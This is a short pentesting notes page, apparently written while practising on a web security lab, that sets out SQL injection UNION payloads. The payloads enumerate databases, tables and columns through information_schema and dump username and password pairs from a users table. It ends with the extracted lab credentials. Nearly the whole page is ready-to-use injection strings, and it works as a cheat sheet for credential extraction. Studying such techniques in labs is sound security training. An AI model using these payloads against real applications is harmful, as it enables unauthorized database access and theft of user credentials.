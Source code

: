 # Listing db, table and columns

## Listing databases

' UNION select schema\_name, NULL from information\_schema.schemata-- -

<figure><img src="../../.gitbook/assets/2024-02-15 07_46_48-kali-linux-2022.4-virtualbox-amd64 [Corriendo] - Oracle VM VirtualBox _ 1.png" alt=""><figcaption></figcaption></figure>

The last command dumps all databases, we'll know try to enumerate each one of those DB's till we find some sensitive data like users or passwords.

## Listing tables:

' UNION select table\_name, NULL from information\_schema.tables where table\_schema = 'public'-- -



## Listing all the tables

' union select table\_name, NULL from information\_schema.tables-- -

## Listing columns:

' UNION select NULL, column\_name from information\_schema.columns where table\_schema='DB' and table\_name='table'-- -'

<figure><img src="../../.gitbook/assets/enumerating columns sql.png" alt=""><figcaption></figcaption></figure>

## Listing data:

## Option#1

\
' union select username,password from users-- -

## Option 2

' union select NULL,group\_concat(username,';',password) from users-- -

<figure><img src="../../.gitbook/assets/2024-02-15 13_21_28-.png" alt=""><figcaption></figcaption></figure>

## Option 3

' UNION SELECT NULL,username || '\~' || password FROM users--

## Result:

administrator\~s3cure\
wiener\~peter\
carlos\~montoya
